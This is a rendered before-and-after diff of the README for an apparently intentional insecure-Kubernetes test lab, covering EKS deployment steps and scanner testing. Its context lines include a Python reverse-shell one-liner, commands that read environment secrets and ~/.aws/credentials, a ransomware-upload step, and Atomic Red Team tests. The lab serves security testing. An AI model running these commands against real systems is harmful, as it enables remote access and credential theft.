

Before and after one commit to latiotech/insecure-kubernetes-deployments, a Markdown page: README.md, 2 parts joined by grey strips. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -19,13 +19,15 @@ Test every type of configuration scanner against a single repo that's comically
 
 ## Deployment:
 
+This will create an EKS cluster with some insecure application pods for testing.
+
 1. Make sure you have Terraform, Helm, AWS CLI, eksctl and a valid AWS user configured
 
-2. `cd terraform`
+2. Move to terraform directory, `cd terraform`
 
-3. `terraform init` `terraform plan` `terraform apply` This creates two EKS node groups, one publicly accessible over SSH and another private. These will run small instances, be sure to `terraform destroy` when you're done for minimal fees. This takes about 15 minutes.
+3. Apply the terraform, this creates an EKS cluster for testing: `terraform init` `terraform plan` `terraform apply` This creates two EKS node groups, one publicly accessible over SSH and another private. These will run small instances, be sure to `terraform destroy` when you're done for minimal fees. This takes about 15 minutes.
 
-4.
+4. Add the Terraform EKS details to your kubeconfig
 ```
 aws eks --region $(terraform output -raw region) update-kubeconfig \
     --name $(terraform output -raw cluster_name)
@@ -33,17 +35,17 @@ aws eks --region $(terraform output -raw region) update-kubeconfig \
 
 5. Grant your user access to the kubernetes cluster you created - through the Console it's adding the AmazonEKSAdminPolicy and AmazonEKSClusterAdminPolicy to your user. This could be automated with terraform to create a user and a role and output them, but it would require adding additional AWS profiles which I thought might be more confusing unless someone has a better solution.
 
-6. `cd ../insecure-chart/`
+6. Move to the helm chart directory `cd ../insecure-chart/`
 
-7. helm install insecure-app . --create-namespace --namespace=insecure-app
+7. Deploy the insecure app, busybox pod, and workload security evaluator `helm install insecure-app . --create-namespace --namespace=insecure-app`
 
 8. To test in these pods:
 
-Get pod name, `kubectl get pods -n insecure-app` or `kubectl get pods -n workload-security-evaluator`
+Get pod name, `kubectl get pods -n insecure-app` or `kubectl get pods -n insecure-app`
 
 For testing insecure-app, run `kubectl port-forward pod/[POD-NAME] 8080:8080 -n insecure-app`. You can now test in your browser at `http://localhost:8080/`
 
-For workload-security-evaluator, run `k exec -it [POD-NAME] -n workload-security-evaluator -- /bin/bash`, then `pwsh` to being invoking tests such as `Invoke-AtomicTest T1105-27 -ShowDetails`
+For workload-security-evaluator, run `k exec -it [POD-NAME] -n insecure-app -- /bin/bash`, then `pwsh` to being invoking tests such as `Invoke-AtomicTest T1105-27 -ShowDetails`
 
 9. `terraform destroy` when you're done!
 
@@ -89,7 +91,7 @@ For workload-security-evaluator, run `k exec -it [POD-NAME] -n workload-security
     - `export RHOST="WORKLOAD-POD-IP";export RPORT=9001;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'`
 5. Check what secrets we might have access to `printenv` and `cat ~/.aws/credentials`
 6. Upload ransomware python script `ransomware.py`- this will indicate the level of alerting, if it's new file, python, or specifics about the python
-7. Exec into the workload security evaluator pod with `k exec -it [POD-NAME] -n workload-security-evaluator -- /bin/bash`, then `pwsh`
+7. Exec into the workload security evaluator pod with `k exec -it [POD-NAME] -n insecure-app -- /bin/bash`, then `pwsh`
 8. `Invoke-AtomicTest T1105-27` - download and run a file
 9. `Invoke-AtomicTest T1046-2` - run nmap
 10. `Invoke-AtomicTest T1053.003-2` - modify cron jobs
````
